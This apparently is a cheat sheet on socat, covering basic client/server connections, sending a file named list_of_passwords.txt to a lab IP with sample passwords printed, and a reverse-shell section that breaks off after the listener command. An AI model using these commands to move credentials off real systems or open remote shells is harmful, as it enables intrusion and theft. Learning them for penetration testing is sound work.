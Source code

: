 ## Examples

### Basic client/server

**Server:**

* `STDOUT` - redirects the standard output into the session

```plain
sudo socat TCP4:<remote-server>:80 STDOUT
```

**Client:**

* `-` - allows STDIO to be received and interacted with via keyboard interaction

```plain
sudo socat - TCP4:<remote-server>:80
```

### Send a file to receiver

**Sender:**

* `fork` - creates a child process once a connection is made, this allows for multiple connections

```plain
sudo socat TCP4-LISTEN:443,fork file:list_of_passwords.txt
```

**Receiver:**

* `file` - specifies the local file name to save the file to
* `create` - specifies a new file will be created

```plain
$ socat TCP4:10.11.0.4:443 file:list_of_passwords.txt,create

C:\Users\crypt0r> type list_of_passwords.txt 
Welkom01
Welcome01
Hellothere!
Summer2022!
```

### Reverse shell

**Server:**

* `-d -d` - option increases verbosity
* `TCP4-LISTEN:443` - creates the IPv4 listener on port 443
* `STDOUT` - connects to the standard output

```plain
socat -d -d TCP4-LISTEN:443 STDOUT 
```

**Client:**
